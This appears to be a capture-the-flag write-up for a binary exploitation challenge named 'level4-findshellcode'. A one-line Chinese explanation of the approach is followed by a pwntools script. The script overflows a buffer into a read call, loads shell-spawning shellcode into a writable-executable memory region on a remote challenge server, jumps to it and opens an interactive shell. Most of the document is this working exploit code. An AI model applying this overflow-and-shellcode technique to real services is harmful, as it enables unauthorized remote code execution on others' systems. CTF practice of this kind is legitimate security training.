 # level4-findshellcode
#### 思路：用gdb查看内存，发现有一rwx段，可以先溢出到读函数，将shellcode读到此内存段,再将读函数的返回跳转到这段内存。
```python
from pwn import *
r = remote("pwn.sixstars.team","22004")

start_s = r.recv()

sh= asm(shellcraft.sh())

read_addr = p32(0x80480fd)
buff_addr = p32(0x8049100)
payload = 'a'*0x30  + read_addr +buff_addr + p32(0) + buff_addr + p32(0x100)
pay2 = payload  + 'a'*(0x80-len(payload))
r.send(pay2)

s = r.recv()
r.send(sh+ 'a'*(0x100-len(sh)))
r.sendline(sh)
r.interactive()
```
